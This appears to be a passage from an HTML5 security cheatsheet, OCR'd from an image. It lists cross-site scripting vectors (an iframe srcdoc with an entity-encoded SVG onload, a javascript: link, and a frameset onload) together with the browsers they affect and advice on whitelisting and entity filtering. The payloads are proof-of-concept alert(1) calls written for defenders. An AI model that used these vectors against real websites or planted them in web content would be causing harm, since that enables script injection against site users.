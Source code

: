 
```
<iframe srcdoc="<svg onload=alert(1)&nvgt;"></iframe> <a href="javascript:&apos;<svg onload&equals;alert&lpar;1&rpar;&nvgt;&apos;">CLICK</a>
```

Be very careful when HTML attributes are used to carry HTML data that is later being used on the website. When entities are accepted, some HTML entities can produce dangerous characters even if they don't look like it on first sight.

*   chrome 4.0
*   chrome latest

*   opera 12.0
*   opera latest

*   internet explorer 9.0
*   internet explorer latest

*   firefox 4.x
*   firefox latest

*   safari 4.0
*   safari latest

*   entity
*   character reference
*   html5
*   iframe

*   [https://developers.whatwg.org/named-character-references.html#named-character-references](https://developers.whatwg.org/named-character-references.html#named-character-references)

reporter：.mario

## HTML4和一些老的向量

### JavaScript execution via &lt;FRAMESET&gt; and onload[#31](#31)[test](test/#31)

This classic vector shows that several tags don't need a "src" attribute to fire onload events, such as &lt;IFRAME&gt;, &lt;BODY&gt; and &lt;FRAMESET&gt;.


```
<frameset onload=alert(1)>
```

Be sure to work with whitelists when allowing users to submit markup - else ancient tags like &lt;FRAMESET&gt; might be forgotten to filter and escape.

*   internet explorer 5.0
*   internet explorer latest

*   opera 8.x
*   opera latest

*   firefox 1.x
*   firefox latest
